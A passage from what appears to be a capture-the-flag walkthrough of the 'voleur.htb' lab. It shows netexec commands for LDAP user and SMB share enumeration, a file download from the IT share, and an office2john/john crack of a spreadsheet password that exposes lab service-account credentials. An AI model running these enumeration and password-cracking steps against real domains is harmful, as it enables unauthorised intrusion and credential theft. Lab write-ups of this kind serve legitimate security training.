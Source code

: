 
## 📂 LDAP & SMB Enumeration

Enumerated users:
```zsh
nxc ldap voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' -k --users
```
**Users Discovered (11 total):**
- Administrator  
- Guest  
- krbtgt  
- ryan.naylor  
- marie.bryant  
- lacey.miller  
- svc_ldap  
- svc_backup  
- svc_iis  
- svc_winrm  
- jeremy.combs  

Shares accessible:
```zsh
nxc smb dc.voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' -k --shares
```
- Finance  
- HR  
- IT (READ)  
- SYSVOL / NETLOGON  

---

## 🔎 Looting IT Share

Downloaded `Access_Review.xlsx` from IT share.  
```zsh
nxc smb dc.voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' -k --share 'IT' --get-file '\First-Line Support\Access_Review.xlsx' Access_Review.xlsx
```

Cracked XLSX password:
```zsh
office2john Access_Review.xlsx > accessreview.hash
john --wordlist=/usr/share/wordlists/rockyou.txt accessreview.hash
```
Password → **football1**  

Extracted contents revealed **service account credentials**:
- `svc_ldap / M1XyC9pW7qT5Vn`
- `svc_iis / N5pXyW1VqM7CZ8`
- `svc_winrm` → password reset by Lacey (not directly listed)

Also note: **Ryan** has **Kerberos Pre-Auth disabled**.

---

